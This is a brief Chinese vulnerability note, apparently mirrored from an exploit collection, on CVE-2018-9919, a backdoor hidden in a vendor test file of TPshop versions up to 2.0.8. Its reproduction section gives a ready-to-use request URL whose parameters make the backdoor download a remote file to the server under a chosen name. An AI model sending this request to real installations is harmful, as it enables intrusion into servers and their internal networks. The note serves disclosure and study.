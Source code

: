 # （CVE-2018-9919）Thinkphp Shop 后门

> 原文：[http://book.iwonder.run/0day/Thinkphp shop/2.html](http://book.iwonder.run/0day/Thinkphp shop/2.html)

## 一、漏洞简介

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php 可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

## 二、漏洞影响

Backdoor in Tpshop <= 2.0.8

## 三、复现过程

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件 PS！扫描网络端口 PS！信息检测，攻击内部网络易受攻击的服务器。

[http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass](http://www.0-sec.org/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass)

